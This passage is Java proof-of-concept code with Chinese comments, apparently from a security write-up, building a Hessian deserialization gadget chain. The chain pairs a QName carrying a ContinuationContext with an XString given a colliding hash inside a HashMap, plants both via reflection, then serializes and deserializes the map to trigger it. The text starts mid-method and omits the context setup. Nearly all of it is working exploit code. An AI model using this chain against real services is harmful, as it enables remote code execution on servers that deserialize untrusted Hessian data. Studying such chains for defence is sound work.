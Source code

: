         // 2. 实例化 QName，修改其 _context 为 ContinuationContext
        QName qName = new QName((Context) continuationContext, "EndlessShw", "EndlessShw");
    
        // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeQName = nodeDeclaredConstructor.newInstance(0, qName, "EndlessShw", null);
        // 这里保证反序列化时 Hash 相同
        XString xString = new XString(unhash(qName.hashCode()));
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, xString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeQName);
        Array.set(nodeArray, 1, nodeXString);
    
        // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    
    /**
         * Hessian 序列化
         *
         * @param object 待序列化的对象
         * @return 返回序列化的结果 byte[]
         */
    public static byte[] hessianSerialize(Object object) {
        Hessian2Output hessian2Output = null;
        byte[] result = null;
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        hessian2Output = new Hessian2Output(byteArrayOutputStream);
        // 这里需要注意
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        try {
            hessian2Output.writeObject(object);
            hessian2Output.flush();
            result = byteArrayOutputStream.toByteArray();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return result;
    }
    